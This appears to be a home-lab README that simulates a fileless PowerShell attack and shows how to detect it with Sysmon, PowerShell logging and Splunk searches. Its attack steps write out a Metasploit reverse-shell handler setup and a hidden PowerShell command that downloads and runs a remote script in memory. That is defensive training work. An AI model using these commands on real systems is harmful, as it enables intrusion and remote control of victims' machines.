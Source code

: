 # Scenario 1: Fileless Malware with PowerShell
## Phase 3: Advanced Threat Hunting & APT Simulation

---

## 🎯 Objective

Simulate a **fileless malware attack** delivered via **PowerShell**, mimicking real-world APT behavior through spear-phishing. The goal is to monitor and detect such attacks using Sysmon, PowerShell logs, and Splunk SIEM.

---

## 🧠 Attack Overview

A simulated PowerShell payload (delivered via phishing or script execution) is executed directly in memory without touching disk. These fileless attacks evade traditional antivirus and require behavioral detection using logs and SIEM correlation.

---

## ⚙️ Lab Setup

- **Attacker Machine:** Kali Linux
- **Victim Machine:** Windows 10 (Hostname: `DESKTOP-PERTPN8`)
- **SIEM:** Splunk on Ubuntu (receiving logs via Splunk Universal Forwarder)

---

## 🧪 Step-by-Step Attack Simulation

### 🔹 Step 1: Start a Reverse Shell Listener on Kali
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST 192.168.1.15
set LPORT 4444
exploit
🔹 Step 2: Host Malicious PowerShell Script
bash
Copy
Edit
python3 -m http.server 80
Note: If port 80 is already in use, run fuser -k 80/tcp or use a different port.

🔹 Step 3: Simulate Fileless Payload Execution on Windows
Run this PowerShell command on the victim machine:

powershell
Copy
Edit
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"
This command:

Bypasses execution policy

Hides the window

Executes remote code directly in memory (fileless)

📈 Detection & Analysis
✅ Log Sources to Monitor
Event Source	Event ID	Description
Sysmon	1	Process Creation
3	Network Connections
10	PowerShell Script Execution
Security Log	4688	New Process Created (powershell.exe)
PowerShell Logs	4104	Script Block Logging

🔍 Splunk Search Queries
View All Events from Victim Host:
spl
Copy
Edit
index=winlogs host=DESKTOP-PERTPN8
Focused Search on Suspicious Activities:
spl
Copy
Edit
index=winlogs (EventCode=1 OR EventCode=3 OR EventCode=10 OR EventCode=4104 OR EventCode=4688)
PowerShell Remote Code Execution Detection:
spl
Copy
Edit
index=winlogs EventCode=4104 ScriptBlockText="IEX*"
Network Connection from PowerShell:
spl
Copy
Edit
index=winlogs EventCode=3 Image="*powershell.exe"
📌 Tools Used
Metasploit (Kali) – Payload generation and handler

Sysmon – Advanced endpoint logging

PowerShell Logging – Script Block and Module Logging

Splunk (Ubuntu) – SIEM for detection and analysis

Splunk Universal Forwarder (Windows) – Log forwarding

✅ Detection Highlights
PowerShell logs (4104) captured the obfuscated remote script execution.

Sysmon Event ID 10 flagged suspicious in-memory script behavior.

Network logs (Sysmon 3) showed connections to attacker IP.

Process creation logs (4688 & Sysmon 1) linked powershell.exe to suspicious activity.

🧠 Lessons Learned
Fileless malware is stealthy and doesn’t write to disk — making traditional detection methods ineffective.

Behavioral monitoring via PowerShell logging and Sysmon is essential.

SIEM correlation helps in spotting lateral and advanced APT behavior.

Obfuscated PowerShell and Base64 encoded scripts are strong indicators of compromise (IoCs).

